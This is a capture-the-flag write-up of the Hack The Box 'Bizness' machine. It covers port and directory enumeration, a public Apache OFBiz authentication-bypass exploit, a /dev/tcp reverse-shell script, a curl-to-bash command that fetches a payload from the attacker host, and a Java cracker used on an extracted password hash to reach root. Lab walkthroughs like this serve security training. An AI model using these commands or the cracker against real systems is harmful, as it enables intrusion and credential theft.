 ```yaml
---
title: HTB Bizness Writeup
author: Elus1nist
layout: post
date: 14 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/1919b64800f6676d0c0d285a9d664cee.png
---
```

Welcome! This is my writeup of the new Season 4 Easy machine from HTB, Bizness. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.252
```
This gives us the scan results of:

```sh
Nmap scan report for 10.10.11.252
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp open  ssl/http nginx 1.18.0
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `bizness.htb` (add to `/etc/hosts` file)
- Port 443: HTTPS - This is the main web page to be working with

---
---
## Enumerating HTTP

Once we add to our hosts file we can visit the HTTP webpage and see the following:

<img src="{{- 'writeup_images/Bizness/Bizness_Webpage.png' | relative_url}}" >

### Directory Fuzzing

Fuzzig for directories with feroxbuster:
```sh
feroxbuster --url http://bizness.htb --filter-status 404
```
From the fuzzing we discover a directory - `/accounting`

Visiting this page:
<img src="{{- 'writeup_images/Bizness/Bizness_Webpage_accounting.png' | relative_url}}" >

---
---
## Public Exploit - (CVE-2023-51467 and CVE-2023-49070)

After a quick search of the vulnerabilities for OFBiz we stumble across this github page - [OFBiz Authentication Bypass RCE](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

After download ing the exploit I write a simple reverse shell bash script `bash_shell.sh`:
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.16.73/9101 0>&1
```
Then on my attacker machine I start a python http server on port 9001 and a nc listener on port 9101.

Running the exploit as follows results in a reverse shell:
```sh
python3 exploit.py --url http://bizness.htb --cmd 'curl http://10.10.16.73:9001/bash_shell.sh | /bin/bash'
```

This gives us the user flag in the `/home/ofbiz` directory

---
---
## Hash Reversing

Once we have the shell we can find and exfiltrate the `c54d0.dat: Derby Database` file.

Extracting important information from file:
```sh
grep c54d0.dat -e 'Password'

./c54d0.dat:21:Password="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled
```

We need to now see how the application Hashes its passwords and hopefully we can reverse engineer a password cracker:

Using the commens-codec library and rockyou.txt wordlist we can write the following cracker in Java:
```java
import org.apache.commons.codec.binary.Base64;
import java.io.BufferedReader;
import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.io.IOException;
import java.io.FileReader;
import java.io.*;

public class Main {
    public static void main(String[] args) {

        System.out.println("Starting Attack");
        System.out.flush();
        String filePath = "/usr/share/wordlist/rockyou.txt";

        try (BufferedReader reader = new BufferedReader(new FileReader(filePath))) {
            String line;

            while ((line = reader.readLine()) != null) {
                System.out.println("[*] Trying word: "+ line);
                byte[] bytes = line.getBytes(StandardCharsets.UTF_8);
                String hash = cryptBytes("SHA", "d", bytes);
                System.out.println(hash);
                if (hash.equals("$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I")){
                    System.out.println("[+] Password: " + line);
                    break;
                }
            }
        } catch (IOException ignored) {}
    }

    public static String cryptBytes(String hashType, String salt, byte[] bytes) {
        StringBuilder sb = new StringBuilder();
        sb.append("$").append(hashType).append("$").append(salt).append("$");
        sb.append(getCryptedBytes(hashType, salt, bytes));
        return sb.toString();
    }

    private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
        try {
            MessageDigest messagedigest = MessageDigest.getInstance("SHA");
            messagedigest.update("d".getBytes(StandardCharsets.UTF_8));
            messagedigest.update(bytes);
            return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
        } catch (NoSuchAlgorithmException e) {
            throw new RuntimeException("Error while comparing password", e);
        }
    }
}
```
This gives us the cracked password:
`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I : monkeybizness`

---
---
## Privelege Escalation

Once we have a password we can try logging in as `root`:

```
su
monkeybizness
```

BOOM! PWNED.ZIP ACHIEVED!

<img src="https://gifsec.com/wp-content/uploads/2022/09/yay-gif-11.gif">